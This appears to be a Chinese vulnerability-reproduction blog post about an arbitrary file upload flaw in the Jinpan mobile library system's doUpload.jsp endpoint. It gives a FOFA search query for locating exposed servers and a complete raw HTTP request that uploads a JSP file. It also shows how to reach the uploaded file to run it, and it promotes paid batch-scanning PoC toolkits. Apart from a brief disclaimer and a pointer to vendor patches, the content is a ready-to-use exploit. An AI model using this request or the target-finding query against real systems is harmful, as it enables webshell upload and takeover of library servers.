 #  金盘移动图书馆系统存在任意文件上传漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-16 21:56  
  
@[toc]  
# 金盘移动图书馆系统存在任意文件上传漏洞 附POC软件  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 金盘移动图书馆系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
金盘移动图书馆管理系统是集掌上门户，掌上APP，微信平台为一体的移动服务解决方案，在移动智能时代拉近读者与图书馆之间的距离。其存在信息泄露漏洞，泄露管理员账号密码等敏感信息  
## 2.漏洞描述  
  
金盘图书馆微信管理平台 doUpload.jsp接口存在任意文件上传漏洞，攻击者通过漏洞可以获取权限。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
金盘移动图书馆管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aeny00g6ejXwhZDTkIEIvW2Dl6ylibtlq0UBOAACGe6Q5sMQbKzyjJQpktvVP4mKicHulsiaFYM0xsQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
金盘移动图书馆系统存在任意文件上传漏洞  
## 4.fofa查询语句  
  
app="金盘软件-金盘移动图书馆系统"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/pages/admin/tools/uploadFile/doUpload.jsp  
  
漏洞数据包：  
```
POST /pages/admin/tools/uploadFile/doUpload.jsp HTTP/1.1
Content-Type: multipart/form-data; boundary=399e563f0389566bd40fd4d6409a67dd
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Host: 127.0.0.1
Content-Length: 179
Connection: close

--399e563f0389566bd40fd4d6409a67dd
Content-Disposition: form-data; name="file"; filename="jILUp0.jsp.jsp"

<% out.println("lP4pC7HrY"); %>
--399e563f0389566bd40fd4d6409a67dd--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aeny00g6ejXwhZDTkIEIvW2Dl6ylibtlq0UBOAACGe6Q5sMQbKzyjJQpktvVP4mKicHulsiaFYM0xsQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传成功会返回路径，拼接路径即可 http://127.0.0.1/upload/2024-02-15/1708012422565.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aeny00g6ejXwhZDTkIEIvWfE05vrjB7iaiaD1a57x9EHCN90tsnFgia7t0v7CyJ7vFZficjxUChaaRZw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aeny00g6ejXwhZDTkIEIvWGkIxXjKMoCQM8Ip0Jib6l6s0pciaSyrHtc5LKib6uYb4YnjGgz6rOsEtg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aeny00g6ejXwhZDTkIEIvWPXzCmyOymmKgEsLqULTEfAriaoVxyicrdRxiaUfz17mOpJbvZJu3vbvtQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aeny00g6ejXwhZDTkIEIvWYdb69Cotiadko9KdRyaJ15xQ0zaRF6A83lUboE1mLb2LiaYs4Nrzt9Tw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aeny00g6ejXwhZDTkIEIvWria9xCGVibfydCGlMicseTMyewhibDBJw75FuxxLqnzBWzKDYoyxN77PvQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aeny00g6ejXwhZDTkIEIvWicoFVf2ZFIZKdlaibAyf3s6sLV2AACGq5YfVERboiaLIrZ2jA1tzbGfcw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请关注厂商更新补丁：http://www.goldlib.com.cn/  
## 8.往期回顾  
  
[金和OA UploadFileBlock接口存在任意文件上传漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485216&idx=1&sn=0fdeec8a135b1ce0a248d117e96dff89&chksm=974b8a27a03c03311b1410166e9fe0198c5d30318b163e7665c27615f33394580488719a974d&scene=21#wechat_redirect)  
  
  
[大华城市安防监控系统平台attachment_downloadByUrlAtt.action存在任意文件读取漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485203&idx=1&sn=30e222d7fddfcec5266a3738eadf2b78&chksm=974b8a14a03c0302166d201e8b447b31fc69de59f3ee4670b23b046d7daa45ca533b1900818e&scene=21#wechat_redirect)  
  
  
  
  

